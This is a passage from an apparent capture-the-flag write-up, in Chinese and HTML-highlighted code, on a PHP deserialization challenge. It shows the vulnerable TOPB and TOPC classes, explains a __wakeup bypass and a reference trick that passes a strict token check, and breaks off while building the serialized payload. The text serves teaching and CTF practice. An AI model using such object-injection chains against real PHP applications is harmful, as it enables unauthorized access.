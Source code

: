     <span class="hljs-reserved">function</span> __construct(){
        $<span class="hljs-keyword">this</span>-&gt;attr = <span class="hljs-literal">null</span>;
        $<span class="hljs-keyword">this</span>-&gt;obj = <span class="hljs-literal">null</span>;
    }
    <span class="hljs-reserved">function</span> __toString(){
        $<span class="hljs-keyword">this</span>-&gt;obj = unserialize($<span class="hljs-keyword">this</span>-&gt;attr);
        $<span class="hljs-keyword">this</span>-&gt;obj-&gt;token = $FLAG;
        <span class="hljs-keyword">if</span>($<span class="hljs-keyword">this</span>-&gt;obj-&gt;token === $<span class="hljs-keyword">this</span>-&gt;obj-&gt;ticket){
           <span class="hljs-keyword">return</span> (string)$<span class="hljs-keyword">this</span>-&gt;obj;
        }
    }
}
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">TOPC</span>{</span>
    public $obj;
    public $attr;
    <span class="hljs-reserved">function</span> __wakeup(){
        $<span class="hljs-keyword">this</span>-&gt;attr = <span class="hljs-literal">null</span>;
        $<span class="hljs-keyword">this</span>-&gt;obj = <span class="hljs-literal">null</span>;
    }
    <span class="hljs-reserved">function</span> __destruct(){
        echo $<span class="hljs-keyword">this</span>-&gt;attr;
    }
}
*/ </code></pre>
<p>大致的流程反序列化TOPC执行echo  TOPB 触发TOPB的tostring方法，TOPB自带反序列化TOPA的函数，反序列化A后return 触发TOPA中的tostring</p>
<h2 id="0x3-bypass">0x3 bypass</h2>
<p>TOPC的</p>
<pre class="prettyprint"><code class=" hljs javascript"><span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__wakeup</span><span class="hljs-params">()</span>{</span>
        $<span class="hljs-keyword">this</span>-&gt;attr = <span class="hljs-literal">null</span>;
        $<span class="hljs-keyword">this</span>-&gt;obj = <span class="hljs-literal">null</span>;
    }</code></pre>
<p>需要绕过，方法利用序列化变量值不同</p>
<p>TOPB的</p>
<pre class="prettyprint"><code class=" hljs lasso"><span class="hljs-keyword">if</span>(<span class="hljs-variable">$this</span><span class="hljs-subst">-&gt;</span>obj<span class="hljs-subst">-&gt;</span>token <span class="hljs-subst">===</span> <span class="hljs-variable">$this</span><span class="hljs-subst">-&gt;</span>obj<span class="hljs-subst">-&gt;</span>ticket)</code></pre>
<p>不是弱类型比较，利用引用的方法</p>
<h2 id="0x4-payload生成">0x4 payload生成</h2>
<pre class="prettyprint"><code class=" hljs lasso"><span class="hljs-variable">$a</span> <span class="hljs-subst">=</span> <span class="hljs-literal">new</span> TOPA();
<span class="hljs-variable">$a</span><span class="hljs-subst">-&gt;</span>token <span class="hljs-subst">=</span> <span class="hljs-subst">&amp;</span><span class="hljs-variable">$a</span><span class="hljs-subst">-&gt;</span>ticket;
<span class="hljs-variable">$a</span><span class="hljs-subst">-&gt;</span>username <span class="hljs-subst">=</span> <span class="hljs-string">'aaaaaaaaaaaaaaaaa'</span>;
<span class="hljs-variable">$a</span><span class="hljs-subst">-&gt;</span>password <span class="hljs-subst">=</span> <span class="hljs-string">'bbbbbbbbbbbbbbbbbb'</span>;
<span class="hljs-comment">//这里在代码逻辑上是不用给username&amp;password赋值的，估计是函数写错了 ，还有login函数是怎么触发的，如果是tostring函数逻辑上就将通了</span>
<span class="hljs-variable">$b</span> <span class="hljs-subst">=</span> <span class="hljs-literal">new</span> TOPB();
<span class="hljs-variable">$b</span><span class="hljs-subst">-&gt;</span>attr <span class="hljs-subst">=</span> serialize(<span class="hljs-variable">$a</span>);
